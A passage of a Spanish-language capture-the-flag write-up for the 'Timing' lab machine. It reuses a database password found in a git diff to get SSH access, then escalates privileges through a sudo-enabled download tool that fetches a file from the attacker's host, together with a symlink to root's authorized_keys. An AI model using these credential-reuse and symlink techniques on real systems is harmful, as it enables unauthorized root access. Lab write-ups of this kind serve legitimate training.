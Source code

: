 ```sh
@@ -1,2 +1,2 @@
 <?php
-$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
+$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');

```
Encontramos otra password. La que se añadió ya la tenemos y no conseguimos acceder con ella ni por ssh ni al panel web. Probemos con la contraseña; **S3cr3t_unGu3ss4bl3_p422w0Rd**
```sh
> ssh aaron@10.10.11.135
...[snip]....

aaron@timing:~$ export TERM=xterm
aaron@timing:~$ whoami
aaron
```
Y estamos dentro ueueueueu!!! Pillemos la flag de usuario:
```sh
aaron@timing:~$ cat user.txt
29859561d420bf004d5b*******
```

## Escalada de privilegios

```sh
> sudo -l 

Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
# Tenemos privilegio de sudo con netutils

aaron@timing:~$ sudo -u root netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> http://10.10.14.8/test.txt
Initializing download: http://10.10.14.8/test.txt
File size: 20 bytes
Opening output file test.txt
Server unsupported, starting from scratch with one connection.
Starting download

aaron@timing:~$ ls -l
total 8
-rw-r--r-- 1 root root  20 Jun 28 17:21 test.txt
-rw-r----- 1 root aaron 33 Jun 28 14:09 user.txt
aaron@timing:~$ cat test.txt
que paxaaaaa broooo
```
Parece que podemos crearnos cualquier archivo como root, es decir, el propietario será root. ¿Qué podríamos hacer?. Jugaré con llaves públicas, con authorized_keys:
```sh
aaron@timing:~$ ln -s -f /root/.ssh/authorized_keys id_rsa.pub
# Estoy creando un enlace simbólico. Enlazo el authorized_keys con un archivo que llamare id_rsa.pub
# Todo lo que se modifique en uno se modificará en el otro siempre que tenga el privilegio de cambiarlo.

```